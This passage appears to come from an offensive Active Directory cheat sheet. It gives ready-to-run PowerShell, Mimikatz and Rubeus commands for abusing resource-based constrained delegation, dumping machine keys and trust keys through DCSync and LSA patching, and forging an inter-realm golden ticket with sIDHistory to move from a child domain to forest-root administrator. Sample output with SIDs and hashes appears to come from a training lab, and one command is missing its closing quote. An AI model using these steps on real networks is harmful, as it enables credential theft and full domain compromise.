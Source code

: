 ```powershell
# Set RCBD on <host> for the "machines". Interesting to make our machine a delegatefrom
C:> Set-DomainRBCD -Identity <host> -DelegateFrom 'machine1$|machine2$|machine3$' -Verbose
# Listing again the RBCD machines will show outs in the DelegatedName

# Get Keys for machine1, our own machine, as rcbd was configured before
C:> Invoke-Mimikatz -Command '"sekurlsa::ekeys" "exit"'
# Check the SID: S-1-5-18 to know which has to pick

# Abuse RBCD to access <host> as domain admin
C:> Rubeus.exe s4u /user:machine1$ /aes256:<machine1_hash> /msdsspn:http/<host> /impersonateuser:administrator /ptt
```
### DNSAdmins
---
```
[NAH]
```
Not Worth the Effort.

### Escalate Across Trusts
---
#### Child to Parent using sIDHistory
If we manage to compromise a child domain of a forest and SID filtering isn't enabled (most of the times is not), we can abuse it to privilege escalate to Domain Administrator of the root domain of the forest. This is possible because of the SID History field on a kerberos TGT ticket, that defines the "extra" security groups and privileges.
```powershell
#`sIDHistory` (sids below) is a user attribute designed for scenarios where a user is moved from one domain to another. 
# When a user's domain is changed, they get a new SID and the old SID is added to `sIDHistory`
# AD permissions required. Get a cmd on a DA using rubeus or mimikatz

# Get Domain Trust Key in any of following ways. Need DA on DC
C:> Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName <dc-host>
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\<parent-dc>$
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

Current domain: DOLLARCORP.MONEYCORP.LOCAL (dcorp / S-1-5-21-1874506631-3219952063-538504511)   <-- Need This for sid

Domain: MONEYCORP.LOCAL (mcorp / S-1-5-21-280534878-1496970234-700767426)           <-- Need This for SIDS
 [  In ] DOLLARCORP.MONEYCORP.LOCAL -> MONEYCORP.LOCAL
   [[BLAH BLAH]]
        * aes256_hmac       7db7b5f208df1b004304bc02df21dc145147b5f093a97aef79170dd1befdaf30
        * aes128_hmac       d979ad3c525592356d62b641907e46cd
        * rc4_hmac_nt       c4451dea556c1cdf20bd737ce7416d63                       <-- Need This for rc4

# On attacket machine, with elevated shell, Create Inter Realm TGT on attacker machine. '/sids' is the sidhistory
C:> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<child_domain_fqdn> /sid:<domain_sid> 
                              /sids:<parent_domain_sid>-519 /rc4:<rc4_hmac_nt> /service:krbtgt 
                              /target:<target_domain_fqdn> /ticket:C:\trust_tkt.kirbi"'

# Create a TGS using the created ticket
C:> Rubeus.exe asktgs /ticket:trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:<target_domain_dc> /ptt
# Here we get access to CIFS only
```
#### Child to Parent Using krbtgt Hash